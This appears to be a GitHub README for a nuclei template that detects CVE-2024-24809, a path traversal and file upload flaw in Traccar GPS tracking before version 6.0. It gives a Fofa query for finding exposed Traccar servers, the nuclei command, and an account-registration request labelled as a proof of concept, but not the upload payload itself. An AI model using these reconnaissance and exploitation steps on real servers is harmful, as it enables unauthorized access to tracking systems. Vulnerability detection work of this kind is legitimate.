 ### CVE-2024-24809 Detail

#Description
Traccar is an open source GPS tracking system. Versions prior to 6.0 are vulnerable to path traversal and unrestricted upload of file with dangerous type. 
Since the system allows registration by default, attackers can acquire ordinary user permissions by registering an account and exploit this vulnerability to upload files with the prefix `device.` under 
any folder. Attackers can use this vulnerability for phishing, cross-site scripting attacks, and potentially execute arbitrary commands on the server. Version 6.0 contains a patch for the issue.

#usage
```bash
Fofa query : app="traccar"
```
```bash
nuclei --target {target.com} -t CVE-2024-24809.yaml
```
#Proof of concept (using burpsuite)
```bash
POST /api/users HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded;charset=UTF-8

{"name": "{{name}}", "email": "{{email}}", "password": "{{password}}", "totpKey": null}
```
#Testing account
```bash
name: "ghostsec"
password: "ghostsec"
email: "ghostsec@ghostsec.com"
```

### How to fix?
Upgrade org.traccar:traccar to version 6.0 or higher.
